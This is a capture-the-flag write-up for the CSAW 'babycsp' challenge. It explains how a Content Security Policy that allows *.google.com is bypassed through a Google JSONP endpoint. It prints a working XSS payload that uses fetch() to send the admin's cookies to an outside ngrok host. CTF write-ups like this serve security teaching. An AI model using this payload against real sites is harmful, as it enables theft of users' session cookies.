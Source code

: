 # Challenge Name: babycsp
Score: 50 <br>
Vulnerability: Cross-Site Scripting (XSS) <br>
Solution: Bypass Content Security Policy (CSP) <br>
Link: http://web.chal.csaw.io:1000/ <br>
Description: 
```
I heard CSP is all the rage now. It's supposed to fix all the XSS, kill all of the confused deputies, and cure cancer?

The flag is in the cookies
```

**Part 0x01 - Information Gathering** <br>
The author wants us to bypass the Content Security Policy (CSP) to get the flag in the cookies. With this kind of challenge, we need to perform Cross-Site Scripting (XSS) attack and grab the cookie in admin side. There are 2 functions on the website. First one is posting and second one is reporting to admin.

The CSP in the website has the following policy: `default-src 'self'; script-src 'self' *.google.com; connect-src *`

![](https://github.com/ajdumanhug/ctf/blob/master/web/xss/files/Screen%20Shot%202019-09-15%20at%201.37.48%20AM.png)

The `script-src` has a value of `*.google.come` which could allow us to bypass the CSP.

**Part 0x02 - Vulnerability Exploitation** <br>
First thing we need to do is to execute an XSS. So, we have to look for a google endpoint that could help us bypass the CSP.

Well, luckily, PayloadsAllTheThings has a payload to [bypass CSP using Google endpoint](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#bypass-csp-using-jsonp-from-google-trick-by-apfeifer27).

Using [apfeifer27](https://twitter.com/apfeifer27)'s CSP Bypass, we used [Fetch](https://javascript.info/fetch) to fetch the admin's cookie and pass it to our ngrok.

Final payload would be

```javascript
<script/src="https://www.google.com/complete/search?client=chrome&jsonp=fetch(/http:\\affc7f76.ngrok.io/.toString().substr(1).concat(document.cookie));"></script>
```

![](https://github.com/ajdumanhug/ctf/blob/master/web/xss/files/Screen%20Shot%202019-09-15%20at%201.51.45%20AM.png)

Please note that I am playing with hackstreetboys team and this challenge was first solved by my teammate, Ameer.

Thanks for reading.
